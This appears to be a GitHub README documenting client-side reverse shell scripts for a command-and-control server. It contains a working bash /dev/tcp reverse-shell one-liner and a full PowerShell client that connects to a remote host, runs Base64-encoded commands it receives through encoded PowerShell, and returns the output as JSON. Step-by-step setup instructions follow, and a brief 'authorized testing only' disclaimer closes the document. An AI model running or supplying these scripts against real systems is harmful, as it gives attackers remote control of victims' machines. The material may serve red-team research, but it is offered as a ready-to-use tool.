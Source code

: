 # Client Reverse Shell Scripts

This directory contains the client-side reverse shell scripts that work in conjunction with the C2 server (located in the `server` directory). There are two scripts provided:

- **client.sh** - for Linux/Unix systems  
- **client.ps1** - for Windows systems

Both scripts are designed to establish a reverse shell connection to the C2 server and receive payload commands. They also set an environment variable (`TASK`) that is used by the server to decide which payload to deliver.

---

## Repository Structure

```
.
├── client
│   ├── client.sh       # Linux reverse shell client script
│   └── client.ps1      # Windows reverse shell client script
└── server
    └── server.py       # Command and Control server and its components
```

---

## Overview

### How It Works

- **Connection Establishment:**  
  Each client script creates a TCP connection to the server.  
  - On Linux, the reverse shell is initiated via a bash interactive shell.
  - On Windows, a PowerShell process handles the connection and payload execution.

- **Payload Execution:**  
  Once connected, the client waits for a Base64-encoded payload (command) from the server, decodes it, and executes it.  
  The output (stdout, stderr, and exit code) is then encoded and sent back to the server as a JSON response.

- **TASK Environment Variable:**  
  The `TASK` variable (defaulted to `"example"`) is set by the client scripts. The server uses this value to determine which payload script (e.g., bash or PowerShell) should be executed on the client side.

---

## Client Scripts

### client.sh (Linux)

```bash
#!/bin/bash
echo "Triggering reverse shell to $SERVER_IP:$SERVER_PORT ..."
TASK="example" /bin/bash -i >& /dev/tcp/$SERVER_IP/$SERVER_PORT 0>&1
```

- **Usage:**  
  - Ensure that the environment variables `SERVER_IP` and `SERVER_PORT` are set to point to your C2 server.
  - This script initiates a reverse shell by connecting to the provided server address and port.
  - It exports the `TASK` variable, which informs the server of the payload to deliver.

### client.ps1 (Windows)

```powershell
# Define server and port
$server = "xxx.xxx.xxx.xxx" # Replace with your server's IP address or hostname
$port = 4444
$TASK="example"

# Create a TCP connection
$client = New-Object System.Net.Sockets.TCPClient($server, $port)
$stream = $client.GetStream()
$encoding = [System.Text.Encoding]::UTF8
$reader = New-Object System.IO.StreamReader($stream, $encoding)
$writer = New-Object System.IO.StreamWriter($stream, $encoding)
$writer.AutoFlush = $true

while (($payloadEncoded = $reader.ReadLine()) -ne $null) {
    # Decode the Base64-encoded payload to retrieve the command
    Write-Host "Received payload: $payloadEncoded"
    try {
        $payloadBytes = [System.Convert]::FromBase64String($payloadEncoded)
        $command = $encoding.GetString($payloadBytes)
    }
    catch {
        Write-Host "Failed to decode payload: $_"
        Write-Host "Received raw payload: " + $payloadEncoded.Trim()
        $command = $payloadEncoded.Trim()
    }
    Write-Host "Decoded command: $($command.Trim())"

    $process = New-Object System.Diagnostics.Process
    $process.StartInfo.FileName = "powershell.exe"
    $bytes = [System.Text.Encoding]::Unicode.GetBytes('$ProgressPreference = "SilentlyContinue"; $TASK="' + $TASK + '";' + $command)
    $encodedCommand = [System.Convert]::ToBase64String($bytes)
    $process.StartInfo.Arguments = "-NoProfile -EncodedCommand $encodedCommand"
    $process.StartInfo.UseShellExecute = $false
    $process.StartInfo.RedirectStandardOutput = $true
    $process.StartInfo.RedirectStandardError = $true

    # Set an environment variable for the process
    $process.StartInfo.EnvironmentVariables["TASK"] = $TASK

    $process.Start() | Out-Null

    # Capture the outputs.
    $output = $process.StandardOutput.ReadToEnd().Trim()
    $errorOutput = $process.StandardError.ReadToEnd().Trim()
    $exitCode = $process.ExitCode

    $process.WaitForExit()

    # Now $output and $errorOutput contain the stdout and stderr, respectively.
    Write-Output "Output: $output"
    Write-Output "Error output: $errorOutput"
    Write-Output "Exit code: $exitCode"

    $stdoutBytes     = [System.Text.Encoding]::UTF8.GetBytes($output)
    $stderrBytes     = [System.Text.Encoding]::UTF8.GetBytes($errorOutput)

    # Build a JSON response (you could add more details if needed)
    $response = @{
        session_id = $(if ($env:SESSION_ID) { $env:SESSION_ID } else { "" })
        task       = $TASK
        stdout     = [System.Convert]::ToBase64String($stdoutBytes)
        stderr     = [System.Convert]::ToBase64String($stderrBytes)
        returncode = $exitCode
    }
    $json = $response | ConvertTo-Json -Compress

    # Send the JSON response followed by a newline
    $writer.WriteLine($json)
}

$client.Close()
```

- **Usage:**  
  - Edit the `$server` variable to set your C2 server’s IP address or hostname.
  - The script uses port `4444` by default; update `$port` if needed.
  - It establishes a TCP connection and continuously listens for Base64-encoded commands.
  - Each payload is decoded and executed using PowerShell, with outputs sent back to the server in JSON format.

---

## Setup and Execution

### Prerequisites

- **For Linux Client:**
  - A Unix-like environment (Linux, macOS, etc.)
  - Bash shell
  - Access to the target C2 server over the network

- **For Windows Client:**
  - Windows PowerShell (v5.1 or later)
  - Access to the target C2 server over the network

### Running the Client

1. **Configure Server Details:**

   - **Linux:**  
     Set the environment variables `SERVER_IP` and `SERVER_PORT` before running the script. For example:
     ```bash
     export SERVER_IP="192.168.1.100"
     export SERVER_PORT="4444"
     ./client.sh
     ```

   - **Windows:**  
     Open the `client.ps1` file in a text editor and update the `$server` and `$port` variables with your C2 server's details. Then, run the script from PowerShell:
     ```powershell
     .\client.ps1
     ```

2. **Execution:**  
   Once executed, the client will connect to the server and wait for payloads. The server will deliver Base64-encoded commands which the client decodes, executes, and then returns a JSON response containing the execution results.

---

## Customization

- **TASK Variable:**  
  The `TASK` environment variable determines which payload the server will send. You can change the default value (`"example"`) to match your requirements.

- **Logging and Output:**  
  Both scripts print status messages to help track the connection and command execution process. Adjust the verbosity as needed.

- **Payload Handling:**  
  The client scripts are designed to work with the payload delivery mechanism of the C2 server. Ensure that any payloads provided by the server are compatible with your client environment (bash for Linux and PowerShell for Windows).

---

## Security Considerations

- **Use in Controlled Environments:**  
  These scripts are intended for authorized testing or research purposes only. Running a reverse shell can expose your system to significant risk if misused.

- **Network Security:**  
  Ensure that the network and systems are secure and that only trusted entities can connect to your server.